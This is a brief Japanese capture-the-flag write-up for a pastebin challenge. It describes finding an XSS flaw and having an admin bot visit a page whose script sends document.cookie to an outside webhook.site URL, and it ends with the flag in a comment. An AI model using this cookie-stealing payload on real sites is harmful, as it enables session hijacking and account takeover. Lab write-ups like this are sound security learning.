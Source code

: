 # Writeup

[pastebin-1.mc.ax](https://pastebin-1.mc.ax/) にアクセスする。

フォームに`<script>`タグを入れてみたところ実行されたので、XSSができることが分かった。

adminのcookieを抜き取りたいので、以下のスクリプトを入力した先のURLを[Admin bot](https://admin-bot.mc.ax/pastebin-1)に踏んでもらう。

```html
<script>window.open('https://webhook.site/4786afe9-a094-44b5-bb0b-9be905b53eb0/?q='+document.cookie);</script>
```

![](img/2021-07-10-15-30-59.png)

<!-- flag{d1dn7_n33d_70_b3_1n_ru57} -->
